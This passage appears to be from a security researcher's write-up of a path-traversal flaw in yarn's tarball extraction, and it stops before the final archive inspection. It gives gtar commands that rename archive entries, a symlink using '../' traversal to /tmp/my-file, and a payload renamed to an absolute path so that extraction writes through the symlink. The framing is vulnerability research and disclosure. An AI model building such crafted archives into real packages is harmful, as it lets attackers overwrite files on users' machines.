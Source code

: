 Put simply, it might look like this:

```
$ gtar --transform='s|package/my-file|package/my-file2|' -cvzf y-1.0.0.tgz package/package.json package/my-file
package/package.json
package/my-file
```
 
```
$ gtar --list --file y-1.0.0.tgz
package/package.json
package/my-file2
```

Although we placed the file of `package/my-file` into the tar archive, it will be extracted as `package/my-file2`.

However, most tar extractors are wary of behaviour like this, as it commonly allows for attacks such as this one. As such, they do a lot of work to prevent files being written maliciously.

As part of this testing, I tried numerous methods, including my original path transversal method, as well as directory extracting into `/tmp/my-file`. Then, after several hours of testing - I had an aha moment; in our original test, yarn was extracting leading slashes from files that were being extracted when they had absolute references.

If we could create a file with a random name, with the contents of the file we wanted at `/tmp/my-file`, and could somehow put it into the tar file under an absolute path of `/my-file`, could we somehow trick yarn into first stripping the leading slash, and then extracting the contents into our symlink?

To test this, I created a file called `package/my-file`, and gave it the contents of `abc123`:

```
$ echo "abc123" > package/payload
```

This gave us the directory structure like so:

```
$ ls -la package/
lrwxr-xr-x  1 rhyselsmore  staff   47  3 Nov 11:31 my-file -> ../../../../../../../../../../../../tmp/my-file
-rw-r--r--  1 rhyselsmore  staff  214  3 Nov 11:33 package.json
-rw-r--r--  1 rhyselsmore  staff    7  3 Nov 11:54 payload
```

I then created a new gzipped tar, but with an additional transform.

```
$ gtar --transform='s|package/payload|/my-file|' -cvzf y-1.0.0.tgz package/package.json package/my-file package/payload
package/package.json
package/my-file
package/payload
```

Finally, I inspected the contents of the tar:

